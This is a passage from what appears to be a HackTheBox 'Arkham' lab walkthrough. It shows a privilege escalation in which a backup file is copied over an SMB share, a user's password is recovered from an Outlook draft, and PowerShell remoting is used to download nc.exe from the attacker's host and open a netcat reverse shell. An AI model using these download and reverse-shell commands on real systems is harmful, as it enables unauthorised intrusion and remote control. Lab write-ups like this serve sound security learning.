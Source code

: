 # Alfred -> Batman

Now, let's start our privilege escalation on this box

Looking arround we get some configuration files on the server. We found some interesting stuff in `C:\Users\alfred\Downloads\backups\backup.zip`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-14-HackTheBox-Arkham/2021-09-14-HackTheBox-Arkham%2009:20:29.png)

Copy it to our box trough smbserver

```
impacket-smbserver share . -username 0x4rt3mis -password 123456 -smb2support
net use \\10.10.14.20\share /u:0x4rt3mis 123456
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-14-HackTheBox-Arkham/2021-09-14-HackTheBox-Arkham%2009:23:20.png)

Now, just copy it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-14-HackTheBox-Arkham/2021-09-14-HackTheBox-Arkham%2009:24:12.png)

We unzip and see a outlook file e-mail

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-14-HackTheBox-Arkham/2021-09-14-HackTheBox-Arkham%2009:24:57.png)

We can "read" the e-mails with `readpst` and a base64 image

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-14-HackTheBox-Arkham/2021-09-14-HackTheBox-Arkham%2009:58:56.png)

We find a message on the Drafts folder

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-14-HackTheBox-Arkham/2021-09-14-HackTheBox-Arkham%2010:02:13.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-14-HackTheBox-Arkham/2021-09-14-HackTheBox-Arkham%2010:01:51.png)

It's a password from the user `batman`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-14-HackTheBox-Arkham/2021-09-14-HackTheBox-Arkham%2010:03:11.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-14-HackTheBox-Arkham/2021-09-14-HackTheBox-Arkham%2010:03:36.png)

Now we can login as batman on this box

```
batman:Zx^#QZX+T!123
```

So, let's do it

```ps
$pass = ConvertTo-SecureString 'Zx^#QZX+T!123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("batman",$pass)
Invoke-Command -Computer ARKHAM -ScriptBlock {IWR -Uri 10.10.14.20:8000/nc.exe -OutFile nc.exe} -Credential $cred
Invoke-Command -Computer ARKHAM -ScriptBlock {cmd /c nc.exe 10.10.14.20 555 -e powershell.exe} -Credential $cred
```

